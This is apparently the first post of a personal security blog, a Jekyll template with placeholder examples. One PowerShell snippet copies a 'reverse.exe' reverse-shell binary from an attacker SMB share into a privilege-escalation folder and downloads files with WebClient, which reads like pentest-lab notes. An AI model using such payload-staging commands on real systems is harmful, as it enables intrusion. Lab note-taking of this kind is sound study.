 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```
{: file="c/users/hello.txt" }


####  wget alternative in windows
```powershell
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
## Shell

```console
foo@bar:~$ whoami
foo
```

## Zsh

```console
joshi@joshi $ git clone https://github.com/prabhatjoshi321/cyberblog.ml.git
Cloning into 'cyberblog.ml'...
remote: Enumerating objects: 6112, done.
remote: Total 6112 (delta 0), reused 0 (delta 0), pack-reused 6112
Receiving objects: 100% (6112/6112), 2.71 MiB | 415.00 KiB/s, done.
Resolving deltas: 100% (3565/3565), done.

```
{: .nolineno}

